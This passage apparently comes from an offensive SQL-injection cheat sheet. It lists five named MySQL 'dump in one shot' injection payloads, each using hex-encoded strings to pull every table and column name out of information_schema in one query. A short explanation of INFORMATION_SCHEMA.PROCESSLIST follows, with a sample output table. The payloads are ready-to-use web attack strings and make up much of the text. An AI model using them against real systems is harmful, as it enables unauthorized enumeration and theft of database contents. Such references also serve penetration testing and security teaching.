 * Profexer
    ```sql
    (select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)
    ```

* Dr.Z3r0
    ```sql
    (select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@))
    ```

* M@dBl00d
    ```sql
    (Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))
    ```

* Zen
    ```sql
    +make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)
    ```

* sharik
    ```sql
    (select(@a)from(select(@a:=0x00),(select(@a)from(information_schema.columns)where(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=concat(@a,table_name,0x203a3a20,column_name,0x3c62723e))))a)
    ```


## MYSQL Current Queries

`INFORMATION_SCHEMA.PROCESSLIST` is a special table available in MySQL and MariaDB that provides information about active processes and threads within the database server. This table can list all operations that DB is performing at the moment.

The `PROCESSLIST` table contains several important columns, each providing details about the current processes. Common columns include: 

* **ID** : The process identifier.
* **USER** : The MySQL user who is running the process.
* **HOST** : The host from which the process was initiated.
* **DB** : The database the process is currently accessing, if any.
* **COMMAND** : The type of command the process is executing (e.g., Query, Sleep).
* **TIME** : The time in seconds that the process has been running.
* **STATE** : The current state of the process.
* **INFO** : The text of the statement being executed, or NULL if no statement is being executed.
     
```sql
SELECT * FROM INFORMATION_SCHEMA.PROCESSLIST;
```

| ID  | USER      | HOST 	         | DB 	   | COMMAND | TIME | STATE      | INFO | 
| --- | --------- | ---------------- | ------- | ------- | ----	| ---------- | ---- | 
| 1	  | root	  | localhost        | testdb  | Query	 | 10	| executing	 | SELECT * FROM some_table | 
| 2	  | app_uset  | 192.168.0.101    | appdb   | Sleep	 | 300	| sleeping	 | NULL |
| 3	  | gues_user | example.com:3360 | NULL	   | Connect | 0    | connecting | NULL |
